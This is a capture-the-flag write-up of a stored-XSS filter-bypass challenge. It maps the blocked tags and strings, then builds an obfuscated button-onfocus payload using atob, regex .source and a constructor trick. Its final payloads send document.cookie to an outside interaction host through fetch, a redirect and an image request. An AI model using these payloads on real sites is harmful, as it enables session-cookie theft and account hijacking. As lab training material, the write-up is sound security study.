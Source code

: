 ### Recon

In this challenge, tags do not trigger **"hacker detected!"** unless they include `<` at the beginning. For example, **body** is not blocked, but **<body** is. Using the tag wordlist from PortSwigger, I identified the blocked tags as follows:

![Blocked Tags](img/image.png)

A similar filtering technique is applied to event attributes. **onerror** is not blocked, but **onerror=** is. The blocked event attributes are:

![Blocked Events](img/image-1.png)

Additionally, some specific strings are blocked, making this challenge time-consuming:

```
="
='
=`
("
('
(`
alert
document.cookie
```

### Initial Payload

For this challenge, I used the `button` tag. Since `alert` is also blocked, I tested my payload using `print()`:

```html
<button autofocus onfocus=print()>
```

This payload worked, triggering the print dialog when I visited the website.

### Bypassing the Filter

Since `document.cookie` is blocked, I had to encode it in Base64. For example:

```js
new Function(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))() // alert(document.cookie)
```

However, `new Function()` requires parentheses for instantiation, so I used:

```js
[].filter.constructor()
```

This evaluates and executes immediately.

Furthermore, since `(`, `(`, and `('` are blocked, I needed a way to pass the Base64 string to `atob` without using quotes:

```js
/base64-string-here/.source
```

Using `.source` on a regex returns the string content without needing quotes. Example:

```js
atob(/YWxlcnQoZG9jdW1lbnQuY29va2llKQ==/.source)
```

The final payload to alert the cookie:

```html
<button autofocus onfocus = [].filter.constructor(atob(/YWxlcnQoZG9jdW1lbnQuY29va2llKQ==/.source))()></button>
```

### OOB Technique and the Bot’s Behavior

To exfiltrate the cookie, I used `fetch` to send it to my server:

```js
fetch('https://zloc7rbkddl0inkf5l8hi5tt2k8bwgk5.oastify.com/?c='+document.cookie);
```

The corresponding HTML payload:

```html
<button autofocus onfocus = [].filter.constructor(atob(/ZmV0Y2goJ2h0dHBzOi8vemxvYzdyYmtkZGwwaW5rZjVsOGhpNXR0Mms4YndnazUub2FzdGlmeS5jb20vP2M9Jytkb2N1bWVudC5jb29raWUpOw==/.source))()></button>
```

However, this only returned my own HTTP request, not the bot’s. Still, I knew the bot executed the payload because its IP sent DNS requests. It seemed the bot executed the script partially but didn’t make an actual HTTP request to my server.

![DNS Request](img/image-2.png)

I then modified the payload to force the bot to visit my server directly:

```js
top.location='https://zloc7rbkddl0inkf5l8hi5tt2k8bwgk5.oastify.com/?c='+document.cookie;
```

Alternatively:

```js
var x = new Image(); x.src = 'https://zloc7rbkddl0inkf5l8hi5tt2k8bwgk5.oastify.com/?c=' + document.cookie;
```

Finally, the bot redirected to my server:

![Bot Redirect](img/image-3.png)

### Validation

Even after obtaining the bot’s cookie, nothing unusual appeared on the website. I even use `dirsearch` to find hidden pages, but doesn't work. After that, I discovered that the validation relied on the second `PHPSESSID`. The bot had two sessions, and the second session remained unchanged, which was the key to solving the challenge.

### Other ways to solve the challenge

https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass?action_solution=voir&debut_affiche_solutions=0#pagination_affiche_solutions